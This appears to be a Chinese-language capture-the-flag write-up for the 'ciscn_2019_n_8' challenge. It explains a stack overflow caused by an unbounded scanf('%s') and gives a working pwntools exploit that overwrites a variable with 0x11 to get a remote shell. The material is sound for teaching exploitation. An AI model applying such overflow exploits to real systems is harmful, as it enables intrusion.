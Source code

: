 ```c ins={11-14} del={10} collapse={18-40}
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

`__isoc99_scanf((int)"%s", (int)var, v4, v5);` 存在栈溢出漏洞，因为没有限制 `%s` 可以读取的字符数。这里 IDA 反编译出来多了两个无关的参数 `v4` 和 `v5`，直接忽视就好了。后面两个条件判断，第一个 `*(_QWORD *)&var[13]` 是将 `&var[13]` 处的八字节，解释成一个整数，看它的值是否为 `0`，不为零则进入下一个判断；`*(_QWORD *)&var[13] == 0x11LL`，看 `&var[13]` 这个地址处的八字节整数是否为 `0x11`，成立则 `getshell`。

## Exploit

```python
#!/usr/bin/python

from pwn import args, context, flat, gdb, p64, process, remote

gdbscript = """
b *main+100
b *main+105
c
"""

FILE = "./ciscn_2019_n_8"
HOST, PORT = "node5.buuoj.cn", 29741

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
    payload = flat(b"A" * 52, p64(0x11))

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendline(payload)
    target.interactive()
```